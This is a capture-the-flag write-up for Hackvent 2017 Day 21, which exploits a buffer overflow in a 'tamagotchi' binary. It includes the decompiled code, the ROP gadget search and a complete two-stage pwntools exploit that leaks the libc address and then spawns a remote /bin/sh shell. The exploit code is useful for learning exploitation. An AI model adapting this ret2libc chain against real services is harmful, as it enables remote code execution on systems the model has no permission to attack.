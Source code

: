 # Day 21: Tamagotchi
  
*Ohai fuud or gtfo*

**Ohai**

I'm a little tamagotchi who wants fuuuuud, pls don't giveh me too much or I'll crash...

`nc challenges.hackvent.hacking-lab.com 31337`

[File #1: tamagotchi](files/tamagotchi "tamagotchi") + [File #2: libc-2.26.so](files/libc-2.26.so "libc-2.26.so")

### Solution

"*pls don't giveh me too much or I'll crash...*" - hmm, sounds like buffer overflow vulnerability. 

```bash
$ file tamagotchi libc-2.26.so 
tamagotchi:   ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc180fb6cf42f3134c8b07c42c35f1efdbd88cc2, not stripped
libc-2.26.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6d2b609f0c8e7b338f767b08c5ac712fac809d31, for GNU/Linux 3.2.0, stripped
```

I tried to decompile it in IDA.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char s; // [rsp+0h] [rbp-4D0h]
  char v5; // [rsp+400h] [rbp-D0h]
  int v6; // [rsp+4C8h] [rbp-8h]
  int v7; // [rsp+4CCh] [rbp-4h]

  v7 = 1;
  v6 = 0;
  show_title(*(_QWORD *)&argc, argv, envp);
  result = show_menu();
  while ( v7 )
  {
    puts("[ch01c3]> ");
    fgets(&s, 1024, _bss_start);
    v6 = atoi(&s);
    if ( v6 == 1 )
    {
      puts("[f00d]> ");
      fgets(&v5, 1024, _bss_start);
      result = puts("[+] nom nom nom ");
    }
    else if ( v6 == 2 )
    {
      result = puts("[+] bye bye");
      v7 = 0;
    }
    else
    {
      result = puts("[-] nope!");
    }
  }
  return result;
}
```

Those `fgets` calls looked promising so the next step was to find offset to overflow the buffer and overwrite RIP using `gdb`. Offset of 216 did the job.

Then I employed [`ropper`](https://github.com/sashs/ropper) to find a suitable ROP injection point.

```bash
ropper --file tamagotchi --search "% ?di"
0x0000000000400695: call 0x4b0; mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x00000000004006b9: call 0x4b0; mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x000000000040069a: mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x00000000004006be: mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x0000000000400550: mov edi, 0x601048; jmp rax;
0x00000000004006b6: or al, byte ptr [rax]; call 0x4b0; mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x0000000000400692: or dword ptr [rax], eax; call 0x4b0; mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x000000000040054f: pop rbp; mov edi, 0x601048; jmp rax;
0x0000000000400803: pop rdi; ret;
```

The last one at `0x400803` was perfect.

We can take advantage of given copy of `libc.so`, but since ASLR is enabled on the remote server we need to leak address of the library in memory first. To do that we need pass pointer to `puts` method to the `puts` call so the address gets printed. Then we can calculate all needed remote addresses from known offsets obtained by static analysis of provided `libc` library.

```python
from pwn import *
from struct import *

r = remote("challenges.hackvent.hacking-lab.com", 31337)

rip_offset = 216                                # offset to RIP
rop = 0x400803                                  # pop rdi; ret;
puts_plt = 0x4004b0                             # puts@plt
main = 0x4006ca                                 # address of main() so we can jump back to the choice after getting the libc address

puts_got = 0x601018                             # puts() GOT                    - objdump -R tamagotchi | grep puts
puts_off = 0x078460                             # offset to puts() function     - readelf -s libc-2.26.so | grep puts
system_off = 0x47dc0                            # system offset in libc         - readelf -s libc-2.26.so | grep system
bin_sh_off  = 0x1a3ee0                          # shell offset in /bin/sh       - objdump -s libc-2.26.so | grep /bin/sh

# buffer to leak remote puts() address
buf_leak = "A"*rip_offset
buf_leak += pack("<Q", rop)
buf_leak += pack("<Q", puts_got)
buf_leak += pack("<Q", puts_plt)
buf_leak += pack("<Q", main)

# stage 1: read the remote puts() address
print r.recvuntil("[ch01c3]>")
r.sendline("1")
print r.recvuntil("[f00d]>")
r.sendline(buf_leak)
print r.recvuntil("[ch01c3]>")
r.sendline("2")
print r.recvuntil("[+] bye bye\n")

# calculate remote addresses from known offsets
puts_got_val = u64(r.recv(6) + "\x00"*2)
libc_base = puts_got_val - puts_off
system = libc_base + system_off
bin_sh = libc_base + bin_sh_off

print "[+] libc base at: 0x%08x" % libc_base
print "[+] system() at: 0x%08x" % system
print "[+] /bin/sh at: 0x%08x" % bin_sh
```

It worked like a charm! Now it was time to do the second buffer overflow to get RCE and remote shell access. I used the same ROP injection point to call `system()` with address of `/bin/sh` as its argument and then switched to interactive mode to be able to execute commands.

```python
# buffer to get remote command execution
buf_rce = "A"*rip_offset
buf_rce += pack("<Q", rop)
buf_rce += pack("<Q", bin_sh)
buf_rce += pack("<Q", system)

# stage 2: pwn
print r.recvuntil("[ch01c3]>")
r.sendline("1")
print r.recvuntil("[f00d]>")
r.sendline(buf_rce)
print r.recvuntil("[ch01c3]>")
r.sendline("2")
print r.recvuntil("[+] bye bye\n")

r.interactive()
```

The complete source code of this remote exploit can be found [here](../../src/main/python/hackvent2017/Day21.py).

Once I got the remote shell it was pretty straightforward.

```bash
$ $ ls /home
tamagotchi
$ cd /home/tamagotchi
$ ls
flag  tamagotchi
$ cat flag
HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d
```

The result flag:

```
HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d
```